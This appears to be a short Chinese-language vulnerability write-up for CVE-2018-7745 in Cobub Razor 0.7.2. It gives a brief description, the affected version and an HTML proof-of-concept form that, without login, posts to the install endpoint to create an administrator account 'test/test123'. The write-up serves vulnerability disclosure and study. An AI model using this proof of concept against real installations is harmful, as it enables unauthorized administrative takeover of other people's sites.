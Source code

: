 （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户
=====================================================

一、漏洞简介
------------

Cobub Razor
0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。

二、漏洞影响
------------

Cobub Razor 0.7.2

三、复现过程
------------

### POC

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://www.0-sec.org/index.php?/install/installation/createuserinfo" method="POST">
          <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
          <input type="hidden" name="superuser" value="test" />
          <input type="hidden" name="pwd" value="test123" />
          <input type="hidden" name="verifypassword" value="test123" />
          <input type="hidden" name="email" value="12@qq.com" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
